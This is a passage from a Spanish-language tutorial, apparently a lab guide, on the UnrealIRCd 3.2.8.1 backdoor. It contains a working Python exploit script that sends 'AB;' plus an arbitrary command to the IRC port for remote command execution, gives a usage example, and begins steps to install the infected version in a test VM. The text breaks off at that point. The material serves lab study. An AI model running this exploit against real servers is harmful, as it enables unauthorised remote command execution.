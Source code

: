    - Desde Kali puedes correr el exploit en Python o usar Metasploit.

---

### 📜 Código Python para explotar la vulnerabilidad

Este es un ejemplo **didáctico** de cómo funcionaría un script simple en Python para explotar esta puerta trasera:

```python
import socket
import sys

def exploit_unrealircd(target_ip, target_port, command):
    payload = f"AB;{command}\n"

    try:
        print(f"[+] Conectando a {target_ip}:{target_port}...")
        s = socket.socket()
        s.connect((target_ip, target_port))
        print("[+] Conectado. Enviando payload...")
        s.send(payload.encode())
        print("[+] Payload enviado.")
        s.close()
    except Exception as e:
        print(f"[!] Error: {e}")

if __name__ == "__main__":
    if len(sys.argv) != 4:
        print(f"Uso: {sys.argv[0]} <IP> <PUERTO> <COMANDO>")
        print(f"Ejemplo: {sys.argv[0]} 192.168.1.10 6667 'id'")
        sys.exit(1)

    ip = sys.argv[1]
    port = int(sys.argv[2])
    cmd = sys.argv[3]

    exploit_unrealircd(ip, port, cmd)
```

#### ✅ Ejemplo de uso

```bash
python3 exploit_unrealircd.py 192.168.56.101 6667 "id"
```

Esto enviará el comando `id` al servidor IRC y, si es vulnerable, lo ejecutará.

---

### 🔧 Cómo instalar UnrealIRCd 3.2.8.1 en entorno de prueba

⚠️ Repetimos: ¡Solo en entornos legales!

1. Crear una VM con Ubuntu 8 o Debian antiguo.
2. Descargar el binario infectado:
